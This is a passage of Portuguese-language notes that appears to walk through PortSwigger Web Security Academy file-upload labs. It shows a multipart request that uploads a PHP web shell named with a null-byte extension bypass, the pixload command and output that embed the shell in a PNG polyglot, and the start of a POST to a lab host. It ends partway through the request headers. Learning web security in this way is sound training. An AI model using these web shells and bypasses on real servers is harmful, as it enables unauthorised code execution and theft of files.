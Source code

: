 Crie uma requisição com o nome do arquivo modificado para atender os requisitos
````http
------WebKitFormBoundary2NUJ0mu3fL0Qhb2U
Content-Disposition: form-data; name="avatar"; filename="webshell.php%00.png"
Content-Type: application/octet-stream

 <?php echo file_get_contents('/home/carlos/secret'); ?> 
------WebKitFormBoundary2NUJ0mu3fL0Qhb2U
Content-Disposition: form-data; name="user"

wiener
------WebKitFormBoundary2NUJ0mu3fL0Qhb2U
Content-Disposition: form-data; name="csrf"

Ra1gXgVnwyebhHPsi3FWWSNBfY14epng
------WebKitFormBoundary2NUJ0mu3fL0Qhb2U--
````

### >> 6. Remote code execution via polyglot web shell upload

https://portswigger.net/web-security/file-upload#what-are-file-upload-vulnerabilities

Crie um arquivo png contendo o payload `<?php echo file_get_contents('/home/carlos/secret'); ?>`
[pixload-ng](https://github.com/chinarulezzz/pixload/blob/master/README.md)
````
pixload-png  --payload "$(cat payload.php)" celebrating-pizza-6753651837109157-shdrk.png
........ PNG Payload Creator/Injector .........
...............................................
... https://github.com/chinarulezzz/pixload ...
...............................................

[>] Injecting payload into celebrating-pizza-6753651837109157-shdrk.png

[+] Chunk size: 13
[+] Chunk type: IHDR
[+] CRC: 6643af0f
[+] Chunk size: 765
[+] Chunk type: PLTE
[+] CRC: fc7fe17d
[+] Chunk size: 255
[+] Chunk type: tRNS
[+] CRC: 075bbaa7
[+] Chunk size: 11873
[+] Chunk type: IDAT
[+] CRC: 5dd0bbd5
[+] Chunk size: 0
[+] Chunk type: IEND

[>] Inject payload to the new chunk: 'pUnk'
[✔] Payload was injected successfully

celebrating-pizza-6753651837109157-shdrk.png: PNG image data, 1315 x 138, 8-bit colormap, non-interlaced
````
Crie uma request para realizar o upload do png porém modifique o arquivo destino para php
````
POST /my-account/avatar HTTP/1.1
Host: ac221ff21ebd3511c06727b0007c00c8.web-security-academy.net
Cookie: session=qNvxxNuz60Dyc00afibMCuuJuGfIX8U3
Content-Length: 26410
Cache-Control: max-age=0
Sec-Ch-Ua: " Not A;Brand";v="99", "Chromium";v="96"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
````